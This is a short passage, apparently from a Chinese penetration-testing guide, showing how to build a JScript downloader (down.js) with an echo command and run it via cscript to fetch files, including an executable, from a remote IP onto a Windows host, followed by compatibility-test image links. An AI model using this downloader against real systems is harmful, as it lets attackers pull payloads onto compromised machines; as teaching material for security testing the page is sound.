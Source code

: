 ```text
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET",WScript.Arguments(0),false);WinHttpReq.Send();BinStream = new ActiveXObject("ADODB.Stream");BinStream.Type = 1;BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);BinStream.SaveToFile(WScript.Arguments(1)); > down.js
 
## 使用cscript调用

cscript /nologo down.js http://172.16.175.1/robots.txt D:\test\Hello.txt
cscript /nologo down.js http://172.16.175.1/calc.exe D:\test\calc.exe
```

### 3、兼容性测试

![Windows2003](../../.gitbook/assets/image%20%28390%29.png)

![Windows2008](../../.gitbook/assets/image%20%28384%29.png)

![win10](../../.gitbook/assets/image%20%28402%29.png)
